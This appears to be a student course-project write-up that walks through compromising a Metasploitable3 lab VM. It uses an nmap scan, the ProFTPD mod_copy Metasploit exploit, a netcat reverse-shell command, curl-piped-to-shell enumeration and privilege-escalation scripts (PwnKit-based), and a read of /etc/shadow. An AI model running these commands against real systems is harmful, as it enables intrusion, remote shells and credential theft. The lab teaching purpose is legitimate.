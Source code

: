 # 📚 Phase 1: Setup and Compromise the Service

---

## 🛠️ 1. Environment Setup

### 1.1 Import Victim VM (Metasploitable3)

- Downloaded `.ova` file from [SourceForge](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/)
- Open VirtualBox → File → Import Appliance
- Customized settings (RAM=2048MB, CPU=2)

**Screenshots:**
- ![1-virtualbox_attacker_machine.png](./screenshots/1-virtualbox_attacker_machine.png)
- ![2-import_appliance_option.png](./screenshots/2-import_appliance_option.png)
- ![3-select_metasploitable3_ova.png](./screenshots/3-select_metasploitable3_ova.png)
- ![4-import_appliance_settings.png](./screenshots/4-import_appliance_settings.png)
- ![5-import_progress.png](./screenshots/5-import_progress.png)

---

### 1.2 Boot the Victim VM

- Started VM with credentials:
  - `username: vagrant`
  - `password: vagrant`

**Screenshot:**
- ![6-metasploitable3_login_success.png](./screenshots/6-metasploitable3_login_success.png)

---

### 1.3 Obtain Victim IP Address

- Victim (Metasploitable3) IP: `10.0.2.15`

**Screenshots:**
- ![7-ifconfig_command.png](./screenshots/7-ifconfig_command.png)
- ![8-victim_ip_found.png](./screenshots/8-victim_ip_found.png)

---

### 1.4 Obtain Attacker IP Address & Confirm Network Connectivity

- Attacker (Kali) IP: `10.0.2.6`
- Pinged victim from attacker:
```bash
ping 10.0.2.15
```

**Screenshot:**
- ![9-kali_ping_success.png](./screenshots/9-kali_ping_success.png)

---

# 💣 2. TASK 1.1: Compromise Service Using Metasploit

---

## 2.1 Scan Victim with Nmap

```bash
nmap -sV 10.0.2.15
```
- Discovered ProFTPD 1.3.5 on port 21

**Screenshot:**
- ![10-nmap_scan_results.png](./screenshots/10-nmap-scan-results.png)

---

## 2.2 Launch Metasploit Console

```bash
sudo msfconsole
```

**Screenshot:**
- ![11-start_msfconsole.png](./screenshots/11-start_msfconsole.png)

---

## 2.3 Search and Use Exploit

```bash
search mod_copy
use 0
```

**Screenshot:**
- ![12-search_and_use_modcopy_exploit.png](./screenshots/12-search_and_use_modcopy_exploit.png)

---

## 2.4 Configure Exploit Options

```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```

**Screenshot:**
- ![13-configure_rhosts_sitepath.png](./screenshots/13-configure_rhosts_sitepath.png)

---

## 2.5 Configure Payload and Reverse Shell Command

```bash
set payload 5
set LHOST 10.0.2.6
set LPORT 4444
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```

**Screenshot:**
- ![14-set_payload_and_reverse_shell_command.png](./screenshots/14-set_payload_and_reverse_shell_command.png)

---

## 2.6 Start Netcat Listener (Terminal A)

```bash
nc -lnvp 4444
```

**Screenshot:**
- ![15-start_nc_listener.png](./screenshots/15-start_nc_listener.png)

---

## 2.7 Run Exploit (Terminal B)

```bash
run
```

**Screenshot:**
- ![16-run_exploit.png](./screenshots/16-run_exploit.png)

---

## 2.8 Confirm Reverse Shell Access

```bash
whoami
ls
```

**Screenshot:**
- ![17-confirm_shell_access.png](./screenshots/17-confirm_shell_access.png)

---

# 🛠️ 3. TASK 1.2: Custom Scripts & Privilege Escalation

---

## 3.1 Run Custom Enumeration Script (lightpeas.sh)

```bash
curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/lightpeas.sh | sh
```

**Screenshot:**
- ![18-run_lightpeas_script.png](./screenshots/18-run_lightpeas_script.png)

---

## 3.2 Execute Custom Privilege Escalation (escalate.sh)

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
```

**Screenshot:**
- ![19-run_escalate_script.png](./screenshots/19-run_escalate_script.png)

---

## 3.3 Confirm Root Access

```bash
whoami
cat /etc/shadow
```

**Screenshot:**
- ![20-confirm_root_access.png](./screenshots/20-confirm_root_access.png)

---

# 📆 Custom Scripts Used

| Script | Purpose |
|:------|:--------|
| `lightpeas.sh` | Local enumeration script (gather system info) |
| `ExploitRoot.c` | Custom compiled PwnKit-based root exploit |
| `escalate.sh` | Automated script to compile and run ExploitRoot.c |

✅ Located at: `phase1/custom/`

---
